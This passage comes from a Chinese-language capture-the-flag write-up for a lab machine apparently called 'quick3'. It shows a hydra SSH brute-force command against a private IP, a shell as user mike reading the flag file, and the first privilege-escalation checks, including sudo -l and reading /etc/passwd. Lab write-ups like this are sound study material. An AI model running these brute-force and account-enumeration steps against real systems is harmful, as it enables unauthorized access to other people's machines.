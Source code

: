爆破一下：

```bash
hydra -C ./result.txt ssh://10.161.187.177
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652916.png" alt="image-20240317163710778" style="zoom:50%;" />

爆破出来了，尝试进行连接：

### ssh连接

连接获取flag！

```bash
mike@quick3:~$ whoami;id
mike
uid=1002(mike) gid=1002(mike) groups=1002(mike)
mike@quick3:~$ ls -la
total 36
drwxr-x---  4 mike mike 4096 Jan 24 12:56 .
drwxr-xr-x 11 root root 4096 Jan 24 10:38 ..
lrwxrwxrwx  1 mike mike    9 Jan 24 10:46 .bash_history -> /dev/null
-rw-r--r--  1 mike mike  220 Jan 21 13:57 .bash_logout
-rw-r--r--  1 mike mike 3797 Jan 24 12:56 .bashrc
drwx------  2 mike mike 4096 Jan 21 14:00 .cache
drwxrwxr-x  3 mike mike 4096 Jan 21 13:58 .local
-rw-r--r--  1 mike mike  807 Jan 21 13:57 .profile
-rw-rw-r--  1 mike mike 4166 Jan 21 13:58 user.txt
mike@quick3:~$ cat user.txt
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171652917.png" alt="image-20240317164609612" style="zoom:33%;" />

## 提权

### 查看基础信息

```bash
mike@quick3:~$ whoami;id
mike
uid=1002(mike) gid=1002(mike) groups=1002(mike)
mike@quick3:~$ sudo -l
[sudo] password for mike: 
Sorry, user mike may not run sudo on quick3.
mike@quick3:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```